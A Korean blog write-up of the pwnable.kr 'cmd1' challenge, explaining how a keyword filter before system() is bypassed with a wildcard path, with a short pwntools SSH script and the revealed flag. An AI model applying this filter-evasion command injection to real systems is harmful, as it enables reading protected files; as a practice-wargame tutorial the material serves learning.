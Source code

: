 ```yaml
---
layout: post
title:  "14. cmd1"
subtitle: ""
date:   2018-11-11 12:55:13 +0900
categories: security
tags : pwnable
---
```



![1]({{"/assets/img/security/pwnable/14/1.png" | absolute_url}})

`PATH` 환경변수 관련 문제인 것 같다.

코드를 보자.

<br>

![2]({{"/assets/img/security/pwnable/14/2.png" | absolute_url}})

짧다.

시작하자마자 `PATH` 환경변수를 덮는다.

그리고 `argv[1]`을 filter 함수로 filter 후에 `flag`, `sh`, `tmp`가 없으면

`system` 함수로 실행한다.

<br>

{% highlight bash %}
./cmd1 "/bin/cat /home/cmd1/flag"
{% endhighlight %}

<br>

대충 이런 문장을 실행시켜서 플래그를 읽어야 할 것 같은데..

여긴 `flag`라는 문자열이 들어가기 때문에 실행할 수 없다.

그럼..

![3]({{"/assets/img/security/pwnable/14/3.png" | absolute_url}})

<br>

{% highlight bash %}
mommy now I get what PATH environment is for :)
{% endhighlight %}


---
### pwntools

{% highlight python %}
from pwn import *
 
id   = 'cmd1'
host = 'pwnable.kr'
port = 2222
pw   = 'guest'
s = ssh(id, host, port=port, password=pw)
 
argv = '\"/bin/cat /home/cmd1/f*\"'
res = s.run('./cmd1 ' + argv)
res.interactive()
{% endhighlight %}

